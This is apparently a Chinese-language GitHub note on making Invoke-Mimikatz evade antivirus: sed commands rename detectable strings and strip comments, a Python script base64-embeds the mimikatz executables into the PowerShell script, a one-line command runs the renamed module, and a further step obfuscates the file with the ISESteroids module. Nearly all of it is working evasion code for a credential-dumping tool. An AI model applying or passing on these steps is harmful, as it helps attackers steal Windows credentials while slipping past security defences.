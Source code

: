 # 免杀 —> Invoke-Mimikatz

- 下载[Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1)
    - 先字符混淆
    
    ```python
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimigray/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpTrust/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
    ```
    
- 将python脚本、Invoke-Mimikatz.ps1和mimikatz_trunk放在同一目录
    - 将win32和x64的exe写入到Invoke-Mimikatz.ps1
    
    ```python
    import fileinput
    import base64
    
    with open("./mimikatz_trunk/Win32/mimikatz.exe", "rb") as f:
        win32 = base64.b64encode(f.read()).decode()
    
    with open("./mimikatz_trunk/x64/mimikatz.exe", "rb") as f:
        x64 = base64.b64encode(f.read()).decode()
    
    for line in fileinput.FileInput("./Invoke-Mimikatz.ps1", inplace=1):
        line = line.rstrip('\r\n')
        if "$PEBytes64 = " in line:
            print("$PEBytes64 = '" + x64 + "'")
        elif "$PEBytes32 = " in line:
            print("$PEBytes32 = '" + win32 + "'")
        else:
            print(line)
    ```
    
    - `powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimigray`
    - 可以修改任意函数名，比如`Invoke-Mimigray`改成`test-function`
- PowerShell ISE混淆
    - 安装ISE模块（安装前先挂个全局代理）
        - `Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery -Force`
    - 输入`Start-Steroids`
    - 打开刚刚需要混淆的文件，工具 -> Obfuscate Code
